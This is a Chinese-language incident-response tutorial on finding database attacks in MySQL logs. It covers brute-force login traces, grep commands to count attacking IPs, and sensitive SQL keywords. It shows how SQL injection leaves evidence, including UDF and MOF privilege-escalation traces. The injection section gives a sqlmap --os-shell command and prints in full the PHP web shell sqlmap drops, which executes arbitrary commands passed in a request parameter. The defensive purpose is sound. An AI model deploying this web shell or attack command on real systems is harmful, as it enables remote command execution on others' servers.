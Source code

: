 常见的数据库攻击包括弱口令、SQL注入、提升权限、窃取备份等。对数据库日志进行分析，可以发现攻击行为，进一步还原攻击场景及追溯攻击源。


# 0x01 Mysql日志分析
general query log能记录成功连接和每次执行的查询，我们可以将它用作安全布防的一部分，为故障分析或黑客事件后的调查提供依据。
```
1、查看log配置信息
show variables like '%general%';
2、开启日志
SET GLOBAL general_log = 'On';
3、指定日志文件路径
#SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
```

比如，当我访问 /test.php?id=1，此时我们得到这样的日志：
```
190604 14:46:14       14 Connect    root@localhost on 
           14 Init DB    test
           14 Query    SELECT * FROM admin WHERE id = 1
           14 Quit  `
```

我们按列来解析一下：
```
第一列:Time，时间列，前面一个是日期,后面一个是小时和分钟，有一些不显示的原因是因为这些sql语句几乎是同时执行的,所以就不另外记录时间了。
第二列:Id，就是show processlist出来的第一列的线程ID,对于长连接和一些比较耗时的sql语句,你可以精确找出究竟是那一条那一个线程在运行。
第三列:Command，操作类型，比如Connect就是连接数据库，Query就是查询数据库(增删查改都显示为查询)，可以特定过虑一些操作。
第四列:Argument，详细信息，例如 Connect    root@localhost on 意思就是连接数据库，如此类推,接下面的连上数据库之后,做了什么查询的操作。
```


## 0x02 登录成功/失败
我们来做个简单的测试吧，使用我以前自己开发的弱口令工具来扫一下，字典设置比较小，2个用户，4个密码，共8组。<br />![log-5-1.png](../../_img\05-应急响应/1656919052336-b6e90c4a-9f61-4b96-834e-4b465bf06fea.png)

MySQL中的log记录是这样子：
```
Time                 Id        Command         Argument

190601 22:03:20	   98 Connect	root@192.168.204.1 on 
		   98 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  103 Connect	mysql@192.168.204.1 on 
		  103 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  104 Connect	mysql@192.168.204.1 on 
		  104 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Connect	root@192.168.204.1 on 
		  101 Connect	root@192.168.204.1 on 
		  101 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		   99 Connect	root@192.168.204.1 on 
		   99 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  105 Connect	mysql@192.168.204.1 on 
		  105 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Query	set autocommit=0
		  102 Connect	mysql@192.168.204.1 on 
		  102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Quit	`
```

你知道在这个口令猜解过程中，哪个是成功的吗？

利用爆破工具，一个口令猜解成功的记录是这样子的：
```
190601 22:03:20     100 Connect	root@192.168.204.1 on 
	   100 Query	set autocommit=0
	   100 Quit
```

但是，如果你是用其他方式，可能会有一点点不一样的哦。

Navicat for MySQL登录：
```
190601 22:14:07	  106 Connect	root@192.168.204.1 on 
		         106 Query	SET NAMES utf8
		         106 Query	SHOW VARIABLES LIKE 'lower_case_%'
		         106 Query	SHOW VARIABLES LIKE 'profiling'
		         106 Query	SHOW DATABASES
```

命令行登录：
```
190601 22:17:25	  111 Connect	root@localhost on 
		         111 Query	select @@version_comment limit 1
190601 22:17:56	  111 Quit
```

这个差别在于，不同的数据库连接工具，它在连接数据库初始化的过程中是不同的。通过这样的差别，我们可以简单判断出用户是通过连接数据库的方式。

另外，不管你是爆破工具、Navicat for MySQL、还是命令行，登录失败都是一样的记录。

登录失败的记录：
```
102 Connect	mysql@192.168.204.1 on 
102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
```

利用shell命令进行简单的分析：
```
#有哪些IP在爆破？
grep  "Access denied" mysql.log |cut -d "'" -f4|uniq -c|sort -nr
     27 192.168.204.1

#爆破用户名字典都有哪些？
grep  "Access denied" mysql.log |cut -d "'" -f2|uniq -c|sort -nr
     13 mysql
     12 root
      1 root
      1 mysql
```

在日志分析中，特别需要注意一些敏感的操作行为，比如删表、备库，读写文件等。关键词：drop table、drop function、lock tables、unlock tables、load_file() 、into outfile、into dumpfile。

敏感数据库表：SELECT _ from mysql.user、SELECT _ from mysql.func


# 0x03  SQL注入入侵痕迹
在利用SQL注入漏洞的过程中，我们会尝试利用sqlmap的--os-shell参数取得shell，如操作不慎，可能留下一些sqlmap创建的临时表和自定义函数。我们先来看一下sqlmap os-shell参数的用法以及原理：

1、构造一个SQL注入点，开启Burp监听8080端口<br />`sqlmap.py -u http://192.168.204.164/sql.php?id=1 --os-shell --proxy=http://127.0.0.1:8080`

HTTP通讯过程如下：<br />![log-5-3.png](../../_img\05-应急响应/1656919075967-5f78b92f-ae44-42a3-b1db-d5d98494a707.png)

创建了一个临时文件tmpbwyov.php，通过访问这个木马执行系统命令，并返回到页面展示。
```
<?php $c=$_REQUEST["cmd"];@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);$z=@ini_get('disable_functions');if(!empty($z)){$z=preg_replace('/[, ]+/',',',$z);$z=explode(',',$z);$z=array_map('trim',$z);}else{$z=array();}$c=$c." 2>&1\n";function f($n){global $z;return is_callable($n)and!in_array($n,$z);}if(f('system')){ob_start();system($c);$w=ob_get_contents();ob_end_clean();}elseif(f('proc_open')){$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);$w=NULL;while(!feof($t[1])){$w.=fread($t[1],512);}@proc_close($y);}elseif(f('shell_exec')){$w=shell_exec($c);}elseif(f('passthru')){ob_start();passthru($c);$w=ob_get_contents();ob_end_clean();}elseif(f('popen')){$x=popen($c,r);$w=NULL;if(is_resource($x)){while(!feof($x)){$w.=fread($x,512);}}@pclose($x);}elseif(f('exec')){$w=array();exec($c,$w);$w=join(chr(10),$w).chr(10);}else{$w=0;}print "<pre>".$w."</pre>";?>`
```

创建了一个临时表sqlmapoutput，调用存储过程执行系统命令将数据写入临时表，然后取临时表中的数据展示到前端。

通过查看网站目录中最近新建的可疑文件，可以判断是否发生过sql注入漏洞攻击事件。

检查方法：<br />1、检查网站目录下，是否存在一些木马文件：<br />![log-5-4.png](../../_img\05-应急响应/1656919105342-141fee66-82e9-4983-a2bf-1cb6393cb6a7.png)

2、检查是否有UDF提权、MOF提权痕迹

检查目录是否有异常文件<br />mysql\lib\plugin<br />c:/windows/system32/wbem/mof/

检查函数是否删除<br />`select * from mysql.func`

3、结合web日志分析。
